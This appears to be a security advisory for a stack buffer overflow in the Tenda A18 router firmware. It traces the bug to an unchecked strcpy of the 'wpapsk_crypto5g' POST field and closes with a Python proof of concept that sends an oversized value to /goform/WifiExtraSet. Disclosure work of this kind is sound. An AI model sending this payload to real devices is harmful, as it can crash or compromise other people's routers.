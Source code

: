 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

V15.13.07.09

## Vulnerability details

The Tenda A18 V15.13.07.09 has a stack overflow vulnerability located in the `fromSetWirelessRepeat` function. This function accepts the `wpapsk_crypto5g` parameter from a POST request by variable `wpapsk_cryptoa` and passes it to the `set_repeat5` function.

![image-20240307201257221](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201257221.png)

![image-20240307201312099](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201312099.png)



Within `set_repeat5`, the array `wpapsk_cryptovalue` is fixed at 16 bytes. However, since the user has control over the input of `wpapsk_crypto5g`, the statement `strcpy(wpapsk_cryptovalue, wpapsk_crypto);` leads to a buffer overflow. The user-supplied `wpapsk_crypto5g` can exceed the capacity of the `wpapsk_cryptovalue` array, thus triggering this security vulnerability.

![image-20240307200632291](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200632291.png)

![image-20240307200640100](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200640100.png)

We set both variables `configured2_4g` not equal to string 'true' and `configured5g`  equal to the string 'true' to trigger the execution of the vulnerable code section within the `strcmp` if condition.

![image-20240307200712324](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307200712324.png)

## PoC

```python
import requests

ip = '192.168.84.101'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
    'configured2_4g': 'truee',
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'true',
    'wpapsk_key2_4g': '1234567890',
    'extSSID5g':'true',
    'originSsid5g': '1234',
    'encode5g': '1234',
    'security5g': 'wpapsk',
    'wpapsk_type5g': 'wpa2',
    'wpapsk_crypto5g': 'a' * 0x100,
    'wpapsk_key5g': '1234567890'
} # a
res = requests.post(url=url, data=payload)

print(res)
```

![image-20240307201033298](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307201033298.png)